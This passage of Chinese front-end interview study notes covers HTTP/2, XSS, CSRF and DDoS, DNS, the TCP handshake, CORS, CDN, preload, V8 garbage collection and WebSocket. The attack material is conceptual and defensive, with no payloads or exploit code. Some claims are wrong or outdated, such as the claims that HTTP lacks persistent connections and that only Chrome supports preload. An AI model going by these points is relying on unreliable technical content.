     一个request对应一个id，这样一个连接上可以有多个request。

     每个连接的request可以随机的混杂在一起，接收方可以根据request的id将request再归属到各自不同的服务端请求里面

2. **报头压缩**

   - 对于相同的头部，不必再通过请求发送，只需发送一次。

     比如每次都发送cookie这件事情！

     客户端和服务器同时维护一张头信息表，所有字段都会存入这个表，产生一个索引号，之后就不发送同样字段了，只需发送索引号

   - 头信息压缩机制， gzip或compress压缩后再发送

3. **服务器推送**

   HTTP/2 允许服务器未经请求，主动向客户端发送资源

#### 5 http2还有哪些缺陷？

1. 丢包重传，会阻塞后面数据， 即【丢失的包必须等待重传确认】
2. 多路复用， 服务器压力提高。

### 7 XSS攻击、CSRF攻击、DDOS攻击

#### XSS攻击

> 跨站脚本攻击(Cross Site Scripting), 与CSS区分， 故称呼为XSS
>
> `原理`:   `“教唆”用户的浏览器去执行一些这个网页中原本不存在的前端代码。`
>
> - 让对方浏览器执行你插入的js

1. **反射型XSS**

   不存储于服务器。

   - 特点： **立刻用于解析和显示该用户的结果页面**

   - 典型例子： 

     通过浏览器地址栏输入的HTTP GET请求参数和页面搜索框输入的POST查询内容。

     恶意用户通过构造含恶意脚本的URL, 发送到各种群、朋友圈、邮箱，诱导用户点击，

     获取点击用户的信息，达到攻击目的。

2. **存储型XSS**

   - 特点： 

     用户通过Web客户端提交给服务端的数据，由服务端保存，然后永久显示在其他用户的页面上

   - 典型例子

     评论中含有恶意脚本，存储在了服务器中，普通用户访问到就会受到攻击，理论上该Web应用的任何用户都是攻击对象


#### CSRF攻击

> CSRF（Cross-site request forgery） => 跨站请求伪造
>
> `攻击者盗用了你的身份，以你的名义发送恶意请求`，
>
> 这种恶意请求会导致
>
> ​		以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账......
>
> ​		造成的问题包括：个人	隐私泄露以及财产安全。

`CSRF攻击的思想`

CSRF需要2个网站

1. 【User】 浏览并登录 网站A， 服务器认为其正确登录并返回其 网站A的Cookie。 一次双向交互
2. 【User】 在没有登出A网站的情况下【cookie未过期，其session依旧有效】，来访问 危险网站【B】
3. `【B】网站要求访问第三方网站【A】，并向A发送一个请求`
4. 浏览器带着`【A】的Cookie`的访问A的服务器
5. 服务器无法识别 发起者是用户还是网站B，此时根据用户的Cookie提供的权限进行正常响应

`举例`

```js
类似这种

```

- 解决办法

  ⭐ 服务端的CSRF方式方法很多样， 最终方案便是客户端页面`增加伪随机数`

  1. 同源检测

     直接禁止外域（或者不受信任的域名）对我们发起请求。

     - Origin Header
     - Referer Header

     我们可以通过这两个头来获取请求的来源

     同源检测的`致命性问题`：

     1. 当一个请求是页面请求（比如网站的主页），

        而来源是搜索引擎的链接（例如百度的搜索结果），也会被当成疑似CSRF攻击

     2. 并不能排除本域发起。如果攻击者有权限在本域发布评论（含链接、图片等，统称UGC），那么它可以直接在本域发起攻击，这种情况下同源策略无法达到防护的作用

  2. 业界对CSRF的防御，一致的做法是使用一个Token

     `原理： CSRF只是盗用cookie， 并不能获取cookie的数据并解析它`

     - 服务端生成一个Token，放在用户的Session中，或者浏览器的Cookie中

       用户每一次提交数据的时候将token也给与服务器！

  3. 验证码

     其本质也类似于token, 增加伪随机数， 服务器进行额外的判断即可。

#### DDOS攻击

- 定义

  分布式拒绝服务。

  将多台计算机联合起来作为攻击平台、通过远程连接利用恶意程序，对一个或多个目标发起DDoS攻击，消耗目标服务器性能或网络带宽，从而造成服务器无法正常地提供服务

- 攻击原理

  通常，攻击者使用一个非法账号将DDoS主控程序安装在一台计算机上，并在网络上的多台计算机上安装代理程序。在所设定的时间内，主控程序与大量代理程序进行通讯，代理程序收到指令时对目标发动攻击，主控程序甚至能在几秒钟内激活成百上千次代理程序的运行。

- 解决办法

  1. **黑名单**、**添加规则**、**大数据智能分析**

  2. 高防服务器、CDN加速 （**资源对抗**）

     防护平台会识别并将攻击流量引流至高防节点，确保用户业务的可持续使用

### 8 输入URL后

> https://segmentfault.com/a/1190000006879700

#### DNS解析：获取ip地址

> URL对应的IP  【从右向左的过程】
>
> 浏览器缓存DNS记录一段时间**， 浏览器也会存在DNS的缓存。
>
> 若你觉得很抽象，你可以理解成你要去图书馆去寻找一本书。图书馆根据书的【位置】进行管理。 

- 域名结构树。

  访问www.goole.com为例

  `.` -> `.com` -> `google.com.` -> `www.google.com.`

  根域名服务器 未寻找， 便去com域名寻找， 以此类推，自顶向下

  . （ .标识根 ， 一般都可以省略 .）=> com => billbill.com => www

  1. 根域名
  2. 一级域名
  3. billbill、google为二级域名
  4. www 三级域名 ， 例属于 billbill之下

- DNS解析优化

  1. 浏览器缓存
  2. 系统缓存
  3. 路由器缓存
  4. IPS服务器缓存
  5. 根域名服务器缓存，顶级域名服务器缓存，主域名服务器缓存

- DNS负载均衡

  对于用户来说，具体哪个ip没人在乎。

  DNS可以返回一个合适的机器的IP给用户， 这种过程就是DNS负载均衡，又叫做DNS重定向

- 任播技术

  找寻最近的根域名服务器，即 [.]服务器管理一级域名服务器【com\cn\net\gov】，一级域名又会管理权威域名服务器【billbill、baidu、qq】。

  > 若DNS地址错误，则会可以上QQ但不可以上网页。因为QQ是直接使用ip地址的，而非域名


#### 建立TCP连接（三次握手）

为什么是TCP连接呢？因为HTTP协议是使用TCP作为其传输层协议的

> 为什么要三次握手？
>
> - 两次握手中，客户端知道了服务器具有接收信息和发送信息的能力
>
> ​          第三次握手：服务器就知道了客户端具有接收信息
>
> - 你的网络太拥堵， 不会为其客户端分配资源

#### 请求处理（http内容）

1. 发起请求

   HTTP请求包含请求`起始行`、`请求头部`、`请求主体`三部分

   - 请求行（状态行）

     1. 请求方法 
     2. url地址 
     3. 协议名称与版本

   - 请求头： 

     1. 与缓存相关的规则信息
     2. HTTP的报文头， 服务端据此获取客户端的信息， 若干属性

   - 空行

   - 请求体

     请求附带的数据，数据格式多样。

2. 以 发请求 是否到服务器为区别， 缓存又分为强缓存与弱缓存。

3. 接收响应

   - HTTP报文封装成HTTP的Request对象. 主要包括状态码，响应头，响应报文三个部分。\
     1. 响应头主要由Cache-Control、 Connection、Date、Pragma等组成。
     2. 响应体为服务器返回给浏览器的信息，主要由HTML，css，js，图片文件组成。
     3. 状态码

#### 渲染页面

解析和渲染。在渲染页面之前，需要构建DOM树和CSSOM树。

- Reflow 回流

  元素的内容、结构、位置或尺寸发生了变化，需要重新计算样式和渲染树

- Repaint 重绘

  新的外观类样式修改，应用新样式绘制这个元素， 并不是结构性的修改。

1. HTML 解析出 DOM Tree

2. CSS 解析出 Style Rules

3. 两者关联生成 Render Tree

4. Layout（布局）根据 Render Tree 计算每个节点的信息

5. Painting 根据计算好的信息进行渲染整个页面

   > 如果遇到 script 标签，会立即解析脚本，停止解析文档（因为 JS 可能会改变 DOM 和 CSS,如果继续解析会造成浪费）。
   >
   > 现在 script 标签增加了 defer 和 async 属性，脚本解析会将脚本中改变 DOM 和 css 的地方> 解析出来，追加到 DOM Tree 和 Style Rules 上

#### 关闭TCP （四次挥手）

1. 第一次挥手

   浏览器 发送 FIN = 1 的请求，来请求断开连接

2. 第二次挥手

   服务器收到请求后，服务器发送ACK表示我收到了！

3. 第三次挥手

   浏览器收到后， 判断是否服务器可能还有数据要发送， 接着发送 FIN请求表示我也没有数据了！可以断。

4. 浏览器需要返回ACK表示同意， 此时断开。

### 9 跨域问题

https://juejin.cn/post/6844903767226351623#heading-15

- 是谁在阻止跨域？

  跨域并不是请求发不出去，请求能发出去，服务端能收到请求并正常返回结果，只是结果被浏览器拦截了

  故同源并不能完全阻止 CSRF，因为请求毕竟是发出去了

> 为什么要同源？
>
> - 如果缺少了同源策略，浏览器很容易受到XSS、CSRF等攻击
>
> 什么是同源？
>
> - `协议`+`域名`+`端口`   三者相同

#### 同源的限制

1.  Cookie、LocalStorage不可读取
2.  DOM节点无法获得。
3.  Ajax请求不可发送
4.  特别： img、link、script、video这类标签是可跨域加载资源

Cookie若不遵守跨域，太多隐私数据会被窃取！

#### 简单请求与复杂请求

- 简单请求

  1. get、popst、head
  2. 头部信息有字段信息限制
  3. xhr没有注册事件监听

- 复杂请求

  1. put、delete
  2. content-type为application/json

  非简单请求的CORS请求，会先使用 options进行预检，是否域名为许可名单、头信息限制内容。

#### 1 JSONP

- 全称： JSONP（JSON with Padding）

  其`借用 script标签的跨域性`去请求一个JS文件， 将数据放入其触发的回调函数当中，实现跨域。

1. 仅支持get传参， 因为是参数是给script的src的后缀结尾的！
2. 本质利用script的标签的跨域性

#### 2 cors

CORS是一个W3C标准，全称是"跨域资源共享"（Cross-origin resource sharing）。

目的：它允许浏览器向跨源服务器，发出[`XMLHttpRequest`](https://links.jianshu.com/go?to=http%3A%2F%2Fwww.ruanyifeng.com%2Fblog%2F2012%2F09%2Fxmlhttprequest_level_2.html)请求，从而克服了AJAX只能[同源](https://links.jianshu.com/go?to=http%3A%2F%2Fwww.ruanyifeng.com%2Fblog%2F2016%2F04%2Fsame-origin-policy.html)使用的限制。

这些操作皆由浏览器自动完成，故CORS大部分是后端在进行操作。

- 简单请求： HEAD、GET、POST。且不能出现复杂的字段。

  若浏览器发现你是简单请求，则会添加字段【origin】。服务会根据这个值决定是否允许其跨域。

  ````js
  Access-Control-Allow-Origin: http: //manage.enjoyment.com
  Access-Control-Allow-Credentials: true // 是否壬许诺跨域下携带cookie
  Content-Type: text/html; charset=utf-8
  ````

- 复杂请求

  不是简单的请求便是复杂请求，复杂请求会额外多以一次的请求【预检】

  1. 预检

     当前网页所在的域名是否在服务器的许可名单之中？

  2. 若是

     跨域可以。

#### 3 postMessage

他是避免了跨域的问题！仅是负责进行数据的传输。

````js
 window.frames[0].postMessage('getcolor','http://lslib.com');
````

#### 3 websocket

#### 4 nginx反向代理

后端实现。

#### 5 利用浏览器

- window.name + iframe

  window.name 极其独特，可以存放2MB数据， 故存放 window.name中可实现跨域问题。

  进行数据之间的通信。

  - a.html欲与c.html跨域相互通信，通过中间页b.html来实现。

- document.domain + iframe

  - 前提： 子域名相同！

  - 原理： 通过js强制设置document.domain为基础主域， 便可实现主域跨域

    ````js
     a.zf1.cn:3000/a.html  获取页面     b.zf1.cn:3000/b.html中a的值
    
    // a.html
    <body>
      <iframe src="http://b.zf1.cn:3000/b.html" 
              frameborder="0" 
              onload="load()" 
              id="frame"></iframe>
      <script>
        document.domain = 'zf1.cn'
        function load() {
          console.log(frame.contentWindow.a);
        }
      </script>
    </body>
    
    // b.html
    <body>
       hellob
       <script>
         document.domain = 'zf1.cn'
         var a = 100;
       </script>
    </body>
    ````

    

### 10 javascript 的垃圾回收机制

> **解除一个值的引用并不意味着自动回收该值所占用的内存。解除引用的真正作用是让值脱离执行环境**

- JavaScript 在`创建对象(对象、字符串等`)时会为它们分配内存，不再使用对时会“自动”释放内存，这个过程称为垃圾收集。

  1. 引用计数

     引用计数的含义是跟踪记录每个值被引用的次数

  2. 标记清除

     当变量进入执行环境是，就标记这个变量为“进入环境”

- 内存泄漏

  1. 全局变量 => 全局下且使用 var 声明

  2. 定时器的执行

  3. 闭包

  4. 未清理的dom元素引用

     虽然我们removeChild这个元素，但是其引用还存在，导致内存泄漏

### 11 tcp 与 udp

1. TCP面向连接（三次握手、四次挥手） UDP不需要提前发送连接
2. TCP可靠。UDP尽力而为， TCP是面向字节，UDP是报文。所以UDP网络拥堵会丢包。
3. TCP一对一（端到端）。 UDP一对多。

### 12 TCP的三次握手与四次挥手

SYN、ACK、FIN 叫做控制位更加合适。

#### 01 | 握手之前

传输层： 端到端（客户端 与 服务端）

举例子： 我在客户端使用【火狐浏览器】、【chrome】浏览器同事打开【billbill】，为什么服务器端不会错误的发送应用进程呢？

1. 端口号 像管道一样，实现了特定的联系。
2. 电脑会分发端口号给不同的应用程序
   - 192.168.3.4：50978
   - 192.168.3.4：51022

#### 02 | 三次握手

> 三次握手（两次交流）其实在日常生活中也很常见。飞机机长与站点的联系。
>
> 1. 而握手机制的核心：怎么样的【握手】可以判断哪些【请求】【响应】需要被废弃 
>
> 2. TCP报文中有: SYN、ACK与FIN等标识。1代表开启标识，0代表关闭标识。
> 3. 在三次握手后，客户端与服务器端就可以互相发送相信【TCP是全双工的】

注意事项

1. `确认号` 对方生成的序号 + 1。故【确认号】非常重要！

   遵循这一准则，我们也可以获得我们之前的序列号。可证明他们隶属于本次TCP过程。

2. 每一次的服务器端的自己的序列号都是由算法运算获取的，放置ddos，防止无限请求。

过程

1. 【客户端】发送【SYN】，代表客户端想要与客户端同步。

   报文内容

   1. 客户端序列号： 保证此条消息的唯一性。万一多个应用程序一起发送呢
   2. SYN： 1

   报文内容

   发送服务端， 你好！我可以和你通信吗？

2. 【服务器】在【TCP报文】将ACK、SYN开启。sync + ack为确认同步。

   报文内容

   1. SYN： 1
   2. ACK： 1  【acknowledge： 代表已知、穷确认】
   3. 服务器端序号
   4. 确认号： 根据客户端序列号 + 1 

   好啊！发送客户端！客户端现在知道啦！

3. 客户端获取TCP报文，并根据其服务器端的【确认号-1】判断是否是自己的报文，以此丢弃或者使用。

   客户端并将其发送给服务器，大家互相接受并进入ESTABLISHED状态。

   报文内容

   1. ACK：1
   
   2. 确认号：  服务器端的【序列号】+1
   
3. 序列号：即上一步服务器给与的确认号。
   
      ⭐ 此时客户端代表可以发送请求，握手结束。
   
   那我也可以的，【客户端】收到了你的ACK！发送服务端，现在服务器现在也知道啦！

- 细节

  若每一次的第一步，发送来的SYN，服务器都要记住其【序号】，那服务器要挂载很多资源，服务器会生成很多次自己的序列号。

  若有人每一次都走的是SYN，又不进行下一步，服务器就会遭受DDOS攻击。

  故服务器不保存自己的序号。而是根据服务器的IP地址、端口号计算获取序列号。

  1. 故 确认号总是根据序列号 + 1 得到的
  2. 控制位也可以根据 SYN、ACK + SYN 判断是第几次握手。

#### 03 | 握手后

1. 握手后就建立连接，客户端即可发送http请求，服务器也可响应内容。
2. 他们就开启了之间的交流

#### 04 | 四次挥手

- 客户端与服务器端都可以主动发起关闭请求

- 由于握手之间序列号不断的递增，故序列号与确认好不再使用固定的数字来代表。

- 为什么要四次握手？

  三次握手似乎就可以，但目的是可能存在未发送完毕的数据。

  故 服务器端会立刻发送【FIN+ ACK】，以让客户端再次决定是否要关闭。

  否则的话 你想想是不是两次挥手就可以保证了？又何必要四次挥手？

1. 客户端

   客户端：  我想关闭

   1. FIN： FINSH结束的含义。确认结束会话。

   2. ACK

   3. 序号

   4. 确认号

2. 服务器端

   服务器端：  确认关闭吗？

   报文内容

   1. ACK
   2. 序列号: 使用 对方的确认号
   3. 确认号： 对方的序列号 + 1

3. 依旧是服务器端

   我准备好结束了!你可以来啦！ 服务端你发送完数据，再来告诉我一下啦

   报文内容

   1. ACK
   2. FIN
   3. 序列号 不变，因为没有一来一回
   4. 确认号 不变，没有一来一回

   服务器端发送数据后，此时再会发送 ACK + FIN做最后确认。

   此时【序列号】、【确认号】保持不变，仅是一个告诉你的准备好可以关闭的状态。

   故不需要一来一回

4. 客户端

   我来啦！

   报文内容

   1. 序号： 对方的确认号码 + 1
   2. 确认号： 对方的序号 + 1
   3. ACK

   此时发送给服务器端方，服务器端关闭。

### 13 cdn

#### 01 | 为什么需要CDN？

1. 服务器可能离你自己有十万八千里， 越远的距离代表越多的节点，越多的丢包可能性。

   故产生了这样的一群人在世界上各地搭建网络服务器，为你而服务！

2. 这家公司教【Content Delivery Network】

3. 用户 => CDN => 源服务器

#### 01 | 分发内容

1. 静态内容 与 动态内容

2. 即便是静态内容也不一定是要保存在CDN中！

   ⭐ 源服务器发送文件给CDN时，可以用HTTP头部cache-control设置缓存文件。来告知CDN！

#### 02 | 分发流程

- 对于静态内容

  1. 源服务器将静态内容提前备份给与CDN
  2. 就近的CND服务器可以把静态内容给与客户器，而不需要劳烦服务器。若未部署，则CDN就得去源服务器去索取相应的静态内容。

- 动态内容

  若用户索取动态内容，CDN再向其 【源服务器】索取，则CDN提供不了加速服务，没什么必要。

  但是

  - CDN可以提供时间的动态服务，CDN提供运行在CDN的接口，保证时间的稳定。

#### 03 | 安全性与服务器

1. cdn的服务器超载便会转移到未超载的服务器，即负载均衡。

   任播：对外同一个接口，对内各个接口。

2. dns也会使用TLS/SSL对网站保护

#### 04  | cdn叫做加速器

1. cdn压缩文件
2. 减少费用，cdn就近准则，让其带宽减少！更省钱了！

### 14 preload / Service Worker

#### 01 | preload

这些也是例属于 浏览器缓存的一部分。

- preload： `让浏览器提前加载指定资源(加载后并不执行)，需要时候再执行。`
  1. 加载与执行分离开，且不阻塞 渲染 与 document.onload事件
  2. 提前加载指定资源、不再出现依赖的font字体隔了一段时间才刷出。

- 我们来使用preload吧

  使用【link】的rel属性便可以使用preload，来标记要预加载的资源

  ````js
  <link rel="preload" href="/path/to/style.css" as="style">
  
  <script>
      const link = document.createElement('link');
      link.rel = 'preload';
      link.as = 'style';
      link.href = '/path/to/style.css';
      document.head.appendChild(link);
  </script>
  ````

- preload的好

  1. 现在你有了一种途径告知浏览器你一定要帮我加载这个资源！

     但你要指定下as 属性，告诉浏览器什么类型的资源将被下载。as 可能的取值有：

     - “script”
     - “style”
     - “image”
     - “media”
     - “document”

     否则优先级会很低，因为这就是相当于一个xhr。

  2. 较早的加载字体文件

     你必须添加【crossorigin】， 若不指定 crossorigin 属性(即使同源)，则会采用匿名模式的 CORS 去加载。

     ❗ 现在只有 chrome支持 proload！

     ````js
     <link rel="preload" href="font.woff2" as="font" type="font/woff2" crossorigin>
     ````

     

#### 02 | prefetch

prefetch 是预测会加载指定资源。而preload是一定会加载。

1. 资源会以较低的优先级被获取到的。
2. 不会加载的是当前页面的加载速度

### 15 <script> 中 defer 和 async 的区别

1. 一般而言 script总是放在底部，因为其会阻碍HTML解析，必须下载好并执行完脚本才会继续解析HTML

   故 你可以认为 脚本文件具有同步性。

2. async script

   异步 的 脚本， 解析过程中，下载，下载完后立刻执行。

   - 有可能阻碍HTML解析（当然你得放在head上）

     下载完毕后，HTML依旧没有解析完成，此时会优先让JS引擎执行代码

     故 async 是不可控的。你一定在要获取某个DOM的时候，他并不是很靠谱。

3. defer script

   完全不会阻碍 HTML 的解析，解析完成之后再按照顺序执行脚本。

   - 这是异步的。
   - 不会中断HTML解析
   - 多个defer script，也可以按照预期结果来执行。

### 16 垃圾回收机制

或许你听说过引用计数法，但循环引用无法回收的问题，令它被浏览器抛弃。

#### 00 | 什么是GC

Garbage Collection ， 负责垃圾回收。

#### 01 | 标记清除法

最常用的方案。

- 标记

  通过进入环境变量和离开环境变量这样两个列表， 来维护它。

  【标记阶段】遍历【存活的对象】

- 清除

  清除阶段，清除没有被标记的对象。

缺点

1. 内存碎片化 （由于清除之后剩余的对象位置不变）

优化

- 标记整理法

  标记整理会在一次 标记清除 (mark-sweep)后，进行一次标记整它会把存活的对象往一端移动。

#### 02 |  早先的引用计数法

是否有无其他对象来引用它，作为回收判断要求。

- 致命缺点： 循环引用问题
- 计数器， 你必须额外用计数器，这导致了额外的内存消耗，但这是小问题。

#### 03 | V8的优化

- 新老生代

  ⭐ V8 整个堆内存的大小就等于新生代加上老生代的内存

  1. 新生代

     新产生的对象（一般而言是 1 - 8 M）

  2. 老生代

     经历过新生代垃圾回收后还存活下来的对象

- 新生代垃圾回收

  将新生代分为 【使用区】与【空间区】、

  1. 新加入的对象放入【使用区】，当使用区写满时，执行垃圾回收机制。

  2. 垃圾回收时

     将【使用区】的【仍活动对象】复制入【空闲区】并将其排序。同时将【非活动对象】清理掉。

     此时置换【使用区】与【空闲区】。

  3. 当一个对象经过多次复制后依然存活， 会被移动到老生代， 使用 老生代的垃圾回收策略。

- 老生代垃圾回收

  既然存在老生代的区域，故会使用【老生代垃圾回收】。

  即 【标记清除法】。

#### 04 | 认识【并行回收】

JS是单线程语言，垃圾回收会堵塞JS脚本执行。故并行回收，便是【加速垃圾回收的执行速度】的方案。

启动了多个线程来负责新生代中的垃圾清理操作。

1. 多个辅助线程来协助 主线程 来执行。
2. 协助的过程中，也可能会产生【停顿】

#### 05 | 增量标记与懒性清理

- 并行回收标记

  不管怎么样，【并行】依旧是一种【全停顿式的垃圾回收方式】，这相当于是【全停顿】的垃圾回收标记。

  故 2011年， 【并行回收标记】 改造为 【增量标记】

- 增量

  将GC的步骤变成增量任务。

  1. 全停顿： JS => GC => JS => GC

  2. 增量法： js gc => js gc => js gc

     即 将一次完整的 `GC` 标记分次执行

- 执行任务程序时内存中标记好的对象引用关系被修改了又怎么办呢？

  写屏障

- 那在每一小次 `GC` 标记执行完之后如何暂停下来去执行任务程序，而后又怎么恢复呢？

  三色标记法

#### 06 | 三色标记法

1. 老生代是采用标记清理算法, 即 【非黑即白】就可以标记好数据。但这是没有使用【增量标记】。

   现在【增量标记】是的以【非黑即白】实现的【标记清除法】的不可行。

   - 内存只存在黑色与白色，你不知道下一次的增量起点，即你无法合理的恢复gc

2. 故使用三色标记法

   - 白色： 未被标记
   - 灰色： 自身被标记，成员变量（该对象的引用对象）未被标记
   - 黑色： 自身和成员变量皆被标记

   即 【恢复执行时】， 若无灰色进入清理阶段。若有灰色，从灰色处开始继续执行。

   1. 不需每次都扫描整个内存空间

      更好的减少 `全停顿` 的时间

#### 07 | 屏障

一次完整的 `GC` 标记分块暂停后，执行【JS】时， 内存中标记好的对象引用关系被修改了。

而【屏障】

1. 一旦有黑色对象引用白色对象， 该白色变为灰色。

   从而保证下一次增量 `GC` 标记阶段可以正确标记

2. 即三色标记法的屏障！

#### 08 | 懒性清理

对于真正的清理释放内存 V8 采用的是惰性清理

当增量标记完成后，假如当前的可用内存足以让我们快速的执行代码。

那么 【JavaScript】总是可以先执行，也无需一次性清理完所有非活动对象内存。可以按需逐一进行清理直到所有的非活动对象内存都清理完毕，后面再接着执行增量标记。。

1. JS执行总是优于【清理】
2. 非活动对象内存， 也是【按需逐一进行清理】的

### 17 websocket

1. 什么是websocket

   websocket是h5提出的， websocket是持久化连接， 借用http完成一部分的握手

   再次重申：http不支持持久连接的（长连接、循环连接不算持久连接）

   ```js
   GET /chat HTTP/1.1
   Host: server.example.com
   Upgrade: websocket
   Connection: Upgrade
   Sec-WebSocket-Key: x3JJHMbDL1EzLkh9GBhXDw==
   Sec-WebSocket-Protocol: chat, superchat
   Sec-WebSocket-Version: 13
   Origin: http://example.com
   ```

   可以看到， 目的是告诉服务器端【客户端即将升级的是 `Websocket` 协议】

   - Upgrade: websocket
   - Connection: Upgrade

2. ajax轮询与long poll

   - ajax轮询

     浏览器隔个几秒就发送一次请求，询问服务器是否有新信息。

     缺点： 服务器有很快的处理速度和资源

   - long poll

     轮询，采用杜塞模型。服务器有信息才会有Response返回。

     缺点：long poll 需要有很高的并发，也就是说同时接待客户的能力要高。

   他们都有一个缺点，只能由客户端发起。且很容易会导致（503 Server Unavailable）

3. Websocket的优点

   - 当服务器完成协议升级后（HTTP->Websocket）， 服务端就可以主动推送信息给客户端。

     这就像是在服务器端的回调。

   - 由此也可以解决服务器上消耗资源的问题

     Websocket只需要一次HTTP握手，所以说整个通讯过程是建立在一次连接/状态中，服务端会一直知道你的信息。有状态的连接！

     无状态的连接： 接线员要反复解析HTTP协议，还要查看identity info的信息

   


